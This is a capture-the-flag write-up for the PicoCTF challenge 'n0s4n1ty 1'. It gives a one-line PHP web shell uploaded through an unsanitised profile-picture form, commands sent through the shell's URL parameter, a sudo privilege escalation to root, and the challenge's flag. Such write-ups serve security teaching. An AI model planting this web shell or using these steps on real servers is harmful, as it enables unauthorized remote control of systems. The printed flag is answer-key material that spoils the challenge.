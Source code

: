 ### 📌 **Write-up for PicoCTF Challenge: n0s4n1ty 1**

---

## **📝 Challenge Overview**
A developer has added **profile picture upload functionality** to a website. However, the implementation is flawed, allowing us to **exploit the system**.  
Our goal is to **find the hidden flag located in the `/root` directory`.**

---

## **🔑 Hints**
1. **"File upload was not sanitized"** → There might be a **file upload vulnerability**, allowing us to upload **arbitrary PHP code**.
2. **"Whenever you get a shell on a remote machine, check `sudo -l`"** → This suggests we can escalate privileges using `sudo`.

---

## **🛠️ Step 1: Exploring the Web Application**
1. Access the challenge website:
   ```
   http://standard-pizzas.picoctf.net:51555/
   ```
2. Locate the **profile picture upload feature**.
3. Upload a `.jpg` image to check how the website stores files.

---

## **🚀 Step 2: Exploiting File Upload Vulnerability**
Since **file upload is not sanitized**, we can upload a **malicious PHP shell**.

### **📜 Creating a Malicious Web Shell**
1. Create a file called `shell.php` with the following code:
   ```php
   <?php system($_GET['cmd']); ?>
   ```
   - This script takes a parameter `cmd` from the URL and executes it.
   - Example: `?cmd=ls` lists files in the current directory.

2. Upload `shell.php` through the profile picture upload.

3. Check the location of the uploaded file:
   ```
   http://standard-pizzas.picoctf.net:51555/uploads/shell.php
   ```

✅ If this works, we **now have remote command execution (RCE)!**

---

## **🔍 Step 3: Executing Commands on the Server**
### **✅ Verify RCE**
Run:
```
http://standard-pizzas.picoctf.net:51555/uploads/shell.php?cmd=ls
```
Expected output:
```
1619046.png  shell.php
```
🎯 **Confirmed: We have command execution!**

### **🔍 Checking User Privileges**
Run:
```
http://standard-pizzas.picoctf.net:51555/uploads/shell.php?cmd=id
```
Expected output:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
📌 We are **running as `www-data` (a low-privilege user).**

### **🔍 Checking `sudo` Permissions**
Since the challenge hints at `sudo -l`, we run:
```
http://standard-pizzas.picoctf.net:51555/uploads/shell.php?cmd=sudo%20-l
```
Expected output:
```
User www-data may run the following commands:
    (ALL) NOPASSWD: ALL
```
✅ This means we can run **ANY command as root without a password!** 🎉

---

## **🛠️ Step 4: Privilege Escalation**
Since we have unrestricted `sudo` access, we can **run commands as root**.

### **🔹 Verify Root Access**
Run:
```
http://standard-pizzas.picoctf.net:51555/uploads/shell.php?cmd=sudo%20whoami
```
Expected output:
```
root
```
✅ **We now have full root access!** 🏆

### **📌 Read the Flag**
Since the flag is in `/root/`, run:
```
http://standard-pizzas.picoctf.net:51555/uploads/shell.php?cmd=sudo%20cat%20/root/flag.txt
```
Expected output:
```
picoCTF{wh47_c4n_u_d0_wPHP_80eedb7d}
```
🎉 **Challenge Solved!** 🚀

